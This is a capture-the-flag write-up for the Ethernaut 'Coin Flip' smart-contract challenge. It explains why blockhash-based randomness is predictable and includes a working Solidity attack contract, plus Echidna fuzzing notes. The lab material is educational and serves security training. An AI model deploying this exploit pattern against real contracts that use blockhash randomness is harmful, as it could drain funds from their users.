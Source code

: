 ```yaml
---
title: Ethernaut 03 Coin Flip
author: man715
date: 2022-08-05
categories: [Smart Contract, Write-up]
tags: [write-up, hacking, smart-contract]
math: true
mermaid: true
image:
  path: 
  width: 800
  height: 500
  alt: 
---
```


# Introduction
The objective of this challenge is to correctly guess the coin flip ten consecutive times. This challenge demonstrates the difficulty of creating randomness in a deterministic system such as the blockchain. Since all the validator nodes need to come to the same exact answer, it is impossible to have a truly random result for each time the code is executed. 

# Assessment
Knowing our objective is to win the coin flip 10 consecutive times, we will first look at how the coin flip is determined by analyzing the `flip()` function. 

```js
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

Looking at this function, we see that the developers are using the the block number minus one to generate a pseudo random number.  

## Vulnerability
The issue with using the block number as a pseudo random number is that it can be predicted. Using a malicious smart contract, an attacker can create the same exact pseudo random number to generate what the coin flip is going to be then in the same transaction submit the answer to the target contract.

# Exploitation
To exploit this vulnerability, we will need to first create our own smart contract that will generate the pseudo random number and create the answer that will be submitted to the target contract.

```js
pragma solidity ^0.6.0;

interface Victim { 
    function flip(bool) external returns(bool);
}

contract CoinFlip {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    Victim victim = Victim(0xf36B5b5001edBAB9a9371bc7865E4b60fa4B4E82);
    
    function guess() public {
        uint256 blockValue = uint256(blockhash(block.number - 1 ));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        victim.flip(side);
    }
}
```

Much of this code should look familiar because it is simply copied from the target contract. For instance, we take the `FACTOR`, `blockValue`, `coinFlip`, and the `side` code directly from the target because that is how the answer is determined. We then send the target contract the guess which uses the same block number since the attacker code and the target code are ran in the same transaction. 

# Lesson(s)
Randomness on a deterministic system is impossible. You must find a way to generate a number from several sources and one needs to be from a source that cannot be known before hand. 

# Fuzzing with Echidna
To successfully and predictably break the contract, we should be able to not only guess 10 consecutive times but even 100 or more times. When I run the test for greater than 10 times, the fuzzer is able to make the contract fail using multiple senders. However, test it for 100 times or more. with using `psender` or `sender` the invariant does not fail. 

The fuzzer does potentially lead you down the right path for solving this issue as it does cause the invariant to fail on 10 consecutive tries with time/block delays. However, in my testing it does not help discern what delay will give consistent predictable results. 

One thing to note is that the solution to this problem is not using a delay but instead to use the block hash to determine if the coin flip result will be heads or tails. 

# Setup
This does not require any setup.

# Test Setup

```javascript
function echidna_test_flip() public view returns(bool) {
        return consecutiveWins <= 10;
    }
```

I tested with the consecutiveWins at 10, 50, and 100.

## Run Test
```shell
echidna-test --config config.yaml Test.sol --contract Test
```

https://github.com/man715/echidna-ctf/tree/main/ethernaut